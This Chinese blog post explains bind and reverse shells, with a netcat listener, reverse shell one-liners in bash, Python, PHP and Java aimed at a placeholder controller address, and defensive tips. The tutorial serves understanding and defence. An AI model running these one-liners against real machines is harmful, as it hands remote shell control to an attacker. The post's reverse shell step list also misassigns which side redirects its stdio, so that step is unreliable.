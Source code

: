 ```yaml
---
layout: post
title: Reverse Shell
categories: Linux
description:
keywords:
---
```


反弹 Shell（Reverse Shell）是相对于 Bind Shell 而言的，在控制端不方便主动连接被控端时（例如被控端被防火墙保护），让被控端主动连接到控制端接受控制。

Bind Shell 是指被控端机器运行 Shell 代码，监听固定端口，等待外部控制端发起连接，从而实现远程控制。
Bind Shell 过程：

1. 被控端创建 TCP Socket，并绑定到本地端口；
2. 被控端监听 TCP 连接，接受控制端发起的 TCP 连接；
3. 被控端将 STDIN，STDOUT，STDERR 重定向到控制端的 Socket；
4. 控制端发出 Shell 命令，由被控端执行并回显结果到控制端。

借助系统调用，使用汇编程序编写的 Bind Shell 程序可以压缩到仅 112 字节。
一旦侵入成功程序被执行，尤其是以高级别账号权限执行，控制端即可发起 TCP 连接，在被控端机器执行任意 Shell 命令。
但是 Bind Shell 也有不足：

1. 程序什么时候被执行无法预期，控制端只能通过轮询确认；
2. 被控端可能在局域网环境下，控制端无法连接；
3. 被控端机器 IP 可能动态变化，控制端无法持续控制；
4. 被控端可能被防火墙保护，只能发起请求，不能接受请求；或者限定了端口，但此端口已被占用。

针对以上不足，Reverse Shell 被提出，和 Bind Shell 的技术原理类似，只是过程不同：

1. 控制端创建 TCP Socket，并绑定到本地端口；
2. 控制端监听 TCP 连接，接受被控端发起的 TCP 连接；
3. 控制端将 STDIN，STDOUT，STDERR 重定向到被控端的 Socket；
4. 控制端发出 Shell 命令，由被控端执行并回显结果到控制端。

如图所示：

![](https://blog.finxter.com/wp-content/uploads/2020/07/reverseshell-768x432.jpg)

控制端执行命令：`nc -lvp 80` 可以直接监听指定的 TCP 端口。

被控端执行命令：`bash -i >& /dev/tcp/{控制端ip}/{控制端port} 0>&1`。
作用是生成交互式（interactive）的 Shell 环境，将标准输出重定向到控制端，将标准输入0重定向到标准输出1。
效果是被控端所有输入输出都显示在控制端，无论控制端的命令成功失败，被控端都没有任何信息打印。
如果控制端没有在监听，则被控端会输出连接被拒绝的错误提示信息，进程退出。
如果控制端停止监听，则被控端的程序立刻退出（因为连接已被断开）。
注意在 Linux 系统中，任意的设备都是文件，因此这里 `/dev/tcp/{控制端ip}/{控制端port}` 是连接到控制端的 Socket 的特殊方式。

编程语言也可作为被控端程序，例如

- python: `python -c 'import socket, subprocess, os; s = socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect((ip, port)); os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2); p = subprocess.call(["/bin/sh", "-i"])'`
- php: `php -r '$sock=fsockopen($IP,$PORT);exec("/bin/sh -i <&3 >&3 2>&3");'`
- java: `r = Runtime.getRuntime(); p = r.exec(["/bin/bash", "-c", "exec 5<>/dev/tcp/ip/port; cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]); p.waitFor()`

一旦机器被控制，除了断绝访问外网能力，Reverse Shell 一般没有太好的防范方法。但仍然有以下手段加以预防和检测：

1. 确保服务器操作系统和应用程序保持在较新的状态，尤其是已知的安全补丁要保证到位，以减少能被利用的漏洞数量；
2. 应用程序尽量以较低权限运行，使得被代码注入后破坏面不至于过大；
3. 尽可能减少生产机器上的 Bash history 历史命令条数，避免在 Shell 命令中使用明文密码；
4. 确保服务器在防火墙以及其他网络防护软件之后，使得代码注入能被及时发现或阻止；
5. 服务器上运行必要的安全防护软件，最好能检测出异常的常驻 Shell 进程；
6. 定期进行安全攻防演练，发现系统潜在安全漏洞。

引用：

- https://cloud.tencent.com/developer/news/36975
- https://zhuanlan.zhihu.com/p/138393396
- https://resources.infosecinstitute.com/topic/icmp-reverse-shell/
- https://www.netsparker.com/blog/web-security/understanding-reverse-shells

License: [(CC 4.0) BY-NC-SA](http://creativecommons.org/licenses/by-nc-sa/4.0/)
